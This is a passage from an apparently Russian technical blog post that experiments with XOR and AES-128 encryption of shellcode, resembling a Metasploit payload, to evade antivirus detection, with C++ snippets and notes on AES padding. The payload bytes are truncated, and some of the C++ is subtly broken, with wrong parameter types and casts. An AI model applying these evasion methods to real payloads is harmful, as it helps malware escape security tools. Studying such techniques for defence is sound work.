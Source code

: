_Здесь видно, что XOR не справился со своей задачей._

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/403/a8e/4c0/403a8e4c0ff683ec07e9d133818348b8.png)

_Далее, я подумал, что можно усложнить ключ, сделав его последовательностью байт:_

``` c++
void encryptdecrypt(unsigned char shellcode, size_t size, unsigned char key, size_t keysize) {
  for (size_t i = 0; i < size; i++) {
  shellcode[i] ^= key[i % keysize];
}}
```

``` c++
unsigned char originalShellcode[] = { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,...,0x89,0xda,0xff,0xd5 };
size_t shellcodeSize = sizeof(originalShellcode);
unsigned char key[] = { 0x3A, 0xC7, 0x9F, 0x2D, 0x54 };
size_t keysize = sizeof(key);
encryptdecrypt(originalShellcode, shellcodeSize, key, keysize);
...encryptdecrypt(static_cast<unsigned char>(execMemory), shellcodeSize, key, keysize);
```

Это также не сработало

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/a8e/572/873/a8e5728735172b2a1d2e8338a14a614b.png)

Вариант с XOR можно пока что отложить. Вероятно, нужно более сложное шифрование. Попробовал AES128

#### AES

_Использовал реализацию от Сергея Бела:_ [https://github.com/SergeyBel/AES/blob/master/README.md](https://github.com/SergeyBel/AES/blob/master/README.md)

Результаты работы библиотеки:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/b4e/eab/49d/b4eeab49daa9007fee364bb77ce85d68.png)

Также для массива в другом виде:

![](https://habrastorage.org/r/w1560/getpro/habr/upload_files/a7e/33f/952/a7e33f95239e4806bffc83e00c3f319a.png)

Как видно, для второго варианта расшифрование выполняется некорректно.

**Что я понял при знакомстве с AES и библиотек в частности:**

1. Ключ должен быть кратен 16 байтам;
    
2. Размер массива должен быть также кратен 16 байтам;
    
3. Размер ключа при расшифровании должен быть использован тот же, что и при шифровании;
    
4. Для корректной работы, рекомендуется использовать вариант нагрузки в виде строки, поскольку может возникнуть ошибка по длине/некорректное расшифрование (см. пример выше);
    
5. Если не хватает длины до кратности, можно дополнить нагрузку с помощью `"\x00";`
    
6. Для подключения библиотеки достаточно просто заинклудить хэдер и добавить в проект .cpp;
    